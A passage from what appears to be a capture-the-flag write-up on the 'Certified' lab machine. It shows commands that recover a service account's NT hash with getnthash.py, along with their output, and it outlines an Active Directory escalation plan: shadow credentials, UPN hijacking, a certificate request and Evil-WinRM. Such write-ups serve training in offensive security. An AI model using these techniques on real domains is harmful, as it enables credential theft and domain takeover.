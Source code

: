 There we go, we successfully got our key, we can use this key to recover the NT hash of `management_svc`, we can do this with the integrated python script from the repository we downloaded in the previous step:

```
python3 getnthash.py certified.htb/management_svc -key e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f

[-] CCache file is not found. Skipping...
[-] No TGT found from ccache, did you set the KRB5CCNAME environment variable?
```

We got an error, we need to set the `KRB5CCNAME` to point out our `cache.ccache` file:

```
export KRB5CCNAME=cache.ccache
```

Now, let's use it again:

```
python3 getnthash.py certified.htb/management_svc -key e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

There we go, we got our ticket, with this, we could go inside Winrm and get our user flag, but let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

From what we found at the reconnaissance stage, we discovered that `management_svc` has `GenericAll` permission over `ca_operator` account, **GenericAll** is a powerful permission in Active Directory (AD) that grants **full control** over a target object (e.g., a user, group, computer, or organizational unit). If a user or group has the `GenericAll` privilege over another object, they can perform **any action** on that object, including modifying its attributes, resetting passwords, deleting it, or adding/removing members (for groups).

So, let's break down our privilege escalation, we can work our way into admin in the following way:

```
1. Abuse GenericAll Rights**
2. Add KeyCredentialLink (Shadow Credentials)
3. Hijack UPN to Impersonate Administrator
4. Request Administrator Certificate
5. Restore UPN 
6. Authenticate as Administrator via PKINIT
7. Lateral Movement with Evil-WinRM
```
